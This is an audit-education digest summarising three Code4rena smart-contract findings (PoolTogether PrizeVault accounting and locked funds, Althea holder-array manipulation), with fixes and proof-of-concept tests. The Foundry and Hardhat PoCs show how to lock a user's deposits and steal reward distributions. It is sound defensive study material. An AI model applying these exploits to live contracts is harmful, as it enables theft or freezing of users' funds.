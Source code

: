 # ETAAcademy-Adudit: 1. Openzeppelin

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Openzeppelin</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>library</th>
          <td>openzeppelin</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] `maxYieldVaultWithdraw()` uses `yieldVault.convertToAssets()`

### ERC4626: `convertToAssets` and `convertToShares` replaced with `preview`

- Summary: convertToAssets and convertToShares functions could be replaced with yield vault's preview functions for accurate accounting based on current conditions. However, since preview functions may revert, they must be used carefully in prize vault functions like maxDeposit, maxWithdraw, ensuring they don't revert.

- Impact & Recommendation: Use yieldVault.previewRedeem(yieldVault.maxRedeem(address(this))).
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-01-the-winner-can-steal-claimer-fees-and-force-him-to-pay-for-the-gas) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function _maxYieldVaultWithdraw() internal view returns (uint256) {
        return yieldVault.convertToAssets(yieldVault.maxRedeem(address(this)));
    }

  ```

  </details>

## 2.[Medium] Funds locked due to missing transfer check

### Two corner cases of ERC-20 and ERC-4246

- Summary: ERC-4626 does not guarantee transferring a specific amount of assets during redemption; only the specified shares are burned. When the contract tries to redeem shares for assets but receives feer shares than expected, leading to an insufficient asset balance. Despite the failed asset transfer, the ERC-20 compliant token only returns **`false`** instead of reverting the transaction. As a result, users’ assets become locked in the PrizeVault contract.

- Impact & Recommendation: To fix the problems, use OpenZeppelin's SafeERC20 safeTransfer for ERC-20 transfers and withdraw the necessary shares from the yield vault, either directly or after previewWithdraw/redeem.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-06-funds-locked-due-to-missing-transfer-check) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    // Place in test/unit/PrizeVault/PoCLockedFunds.t.sol
    pragma solidity ^0.8.24;
    import { UnitBaseSetup } from "./UnitBaseSetup.t.sol";
    import { IERC20, IERC4626 } from "openzeppelin/token/ERC20/extensions/ERC4626.sol";
    import { ERC20PermitMock } from "../../contracts/mock/ERC20PermitMock.sol";
    import { ERC4626Mock } from "openzeppelin/mocks/ERC4626Mock.sol";
    import { Math } from "openzeppelin/utils/math/Math.sol";
    // An ERC20-compliant token that does not throw on insufficient balance.
    contract NoRevertToken is IERC20 {
        uint8   public decimals = 18;
        uint256 public totalSupply;
        mapping (address => uint)                      public balanceOf;
        mapping (address => mapping (address => uint)) public allowance;
        constructor(uint _totalSupply) {
            totalSupply = _totalSupply;
            balanceOf[msg.sender] = _totalSupply;
            emit Transfer(address(0), msg.sender, _totalSupply);
        }
        function transfer(address dst, uint wad) external returns (bool) {
            return transferFrom(msg.sender, dst, wad);
        }
        function transferFrom(address src, address dst, uint wad) virtual public returns (bool) {
            if (balanceOf[src] < wad) return false;                        // insufficient src bal
            if (src != msg.sender && allowance[src][msg.sender] != type(uint).max) {
                if (allowance[src][msg.sender] < wad) return false;        // insufficient allowance
                allowance[src][msg.sender] = allowance[src][msg.sender] - wad;
            }
            balanceOf[src] -= wad;
            balanceOf[dst] += wad;
            emit Transfer(src, dst, wad);
            return true;
        }
        function approve(address usr, uint wad) virtual external returns (bool) {
            allowance[msg.sender][usr] = wad;
            emit Approval(msg.sender, usr, wad);
            return true;
        }
    }
    // An ERC4626-compliant (yield) vault.
    // `withdraw(assets)` burns `assets * totalSupply / (totalAssets + 1)` shares.
    // `redeem(shares)` transfers `shares * (totalAssets + 1) / (totalSupply + 1)` assets.
    contract YieldVault is ERC4626Mock {
        using Math for uint256;
        constructor(address _asset) ERC4626Mock(_asset) {}
        function previewWithdraw(uint256 assets) public view virtual override returns (uint256) {
            return assets.mulDiv(totalSupply(), totalAssets() + 1);
        }
    }
    // Demonstrate that all of Alice's funds are locked in the PrizeVault,
    // with all corresponding shares burned.
    contract PoCLockedFunds is UnitBaseSetup {
        NoRevertToken asset;
        function setUpUnderlyingAsset() public view override returns (ERC20PermitMock) {
            return ERC20PermitMock(address(asset));
        }
        function setUpYieldVault() public override returns (IERC4626) {
            return new YieldVault(address(underlyingAsset));
        }
        function setUp() public override {
            return;
        }
        function test_poc_lockedFundsOnLossyWithdrawal() public {
            uint256 deposited = 1e18;
            // Mint 10^18 tokens and transfer them to Alice.
            asset = new NoRevertToken(deposited);
            super.setUp();
            asset.transfer(alice, deposited);
            // Alice holds all tokens, the yield vault and the price vaults are empty.
            assertEq(underlyingAsset.balanceOf(alice), deposited);
            assertEq(underlyingAsset.balanceOf(address(vault)), 0);
            assertEq(underlyingAsset.balanceOf(address(yieldVault)), 0);
            assertEq(yieldVault.totalSupply(), 0);
            assertEq(yieldVault.balanceOf(address(vault)), 0);
            assertEq(vault.totalSupply(), 0);
            assertEq(vault.balanceOf(alice), 0);
            // Alice enters the vault.
            vm.startPrank(alice);
            underlyingAsset.approve(address(vault), deposited);
            vault.deposit(deposited, alice);
            // All assets were transferred into the yield vault,
            // as many yield vault shares were minted to the prize vault, and
            // as many prize vault shares were minted to Alice.
            assertEq(underlyingAsset.balanceOf(alice), 0);
            assertEq(underlyingAsset.balanceOf(address(vault)), 0);
            assertEq(underlyingAsset.balanceOf(address(yieldVault)), deposited);
            assertEq(yieldVault.totalSupply(), deposited);
            assertEq(yieldVault.balanceOf(address(vault)), deposited);
            assertEq(vault.totalSupply(), deposited);
            assertEq(vault.balanceOf(alice), deposited);
            // Perform the lossy withdraw.
            vault.withdraw(deposited, alice, alice);
            // At this point Alice should've received all her assets back,
            // and all prize/yield vault shares should've been burned.
            // In contrast, no assets were transferred to Alice,
            // but (almost) all shares have been burned.
            assertEq(underlyingAsset.balanceOf(alice), 0);
            assertEq(underlyingAsset.balanceOf(address(vault)), 999999999999999999);
            assertEq(underlyingAsset.balanceOf(address(yieldVault)), 1);
            assertEq(yieldVault.totalSupply(), 1);
            assertEq(yieldVault.balanceOf(address(vault)), 1);
            assertEq(vault.totalSupply(), 0);
            assertEq(vault.balanceOf(alice), 0);
            // As a result, Alice's funds are locked in the vault;
            // she cannot even withdraw a single asset.
            vm.expectRevert();
            vault.withdraw(1, alice, alice);
            vm.expectRevert();
            vault.redeem(1, alice, alice);
        }
    }


  ```

  </details>

## 3.[High] Holders array can be manipulated by transferring or burning with amount 0, stealing rewards or bricking certain functions

### Transfer or burn 0 ERC-20 token

- Summary: Users can manipulate the holders array in the LiquidInfrastructureERC20 contract by transferring or burning tokens with an amount of 0. This allows them to add their address multiple times to the array, leading to unfair distribution of rewards.

- Impact & Recommendation: Adjust the logic in `_beforeTokenTransfer` to ignore burns, transfers where the amount is `0`, and transfers where the recipient already has a positive balance.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#h-01-holders-array-can-be-manipulated-by-transferring-or-burning-with-amount-0-stealing-rewards-or-bricking-certain-functions) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    it("malicious user can add himself to holders array multiple times and steal rewards", async function () {
        const { infraERC20, erc20Owner, nftAccount1, holder1, holder2 } = await liquidErc20Fixture();
        const nft = await deployLiquidNFT(nftAccount1);
        const erc20 = await deployERC20A(erc20Owner);
        await nft.setThresholds([await erc20.getAddress()], [parseEther('100')]);
        await nft.transferFrom(nftAccount1.address, await infraERC20.getAddress(), await nft.AccountId());
        await infraERC20.addManagedNFT(await nft.getAddress());
        await infraERC20.setDistributableERC20s([await erc20.getAddress()]);
        const OTHER_ADDRESS = '0x1111111111111111111111111111111111111111'
        await infraERC20.approveHolder(holder1.address);
        await infraERC20.approveHolder(holder2.address);
        // Malicious user transfers 0 to himself to add himself to the holders array
        await infraERC20.transferFrom(OTHER_ADDRESS, holder1.address, 0);
        // Setup balances
        await infraERC20.mint(holder1.address, parseEther('1'));
        await infraERC20.mint(holder2.address, parseEther('1'));
        await erc20.mint(await nft.getAddress(), parseEther('2'));
        await infraERC20.withdrawFromAllManagedNFTs();
        // Distribute to all holders fails because holder1 is in the holders array twice
        // Calling distribute with 2 sends all funds to holder1
        await mine(500);
        await expect(infraERC20.distributeToAllHolders()).to.be.reverted;
        await expect(() => infraERC20.distribute(2))
            .to.changeTokenBalances(erc20, [holder1, holder2], [parseEther('2'), parseEther('0')]);
        expect(await erc20.balanceOf(await infraERC20.getAddress())).to.eq(parseEther('0'));
    });
    it("malicious user can add zero address to holders array", async function () {
        const { infraERC20, erc20Owner, nftAccount1, holder1 } = await liquidErc20Fixture();
        for (let i = 0; i < 10; i++) {
            await infraERC20.burn(0);
        }
        // I added a getHolders view function to better see this vulnerability
        expect((await infraERC20.getHolders()).length).to.eq(10);
    });

  ```

  </details>
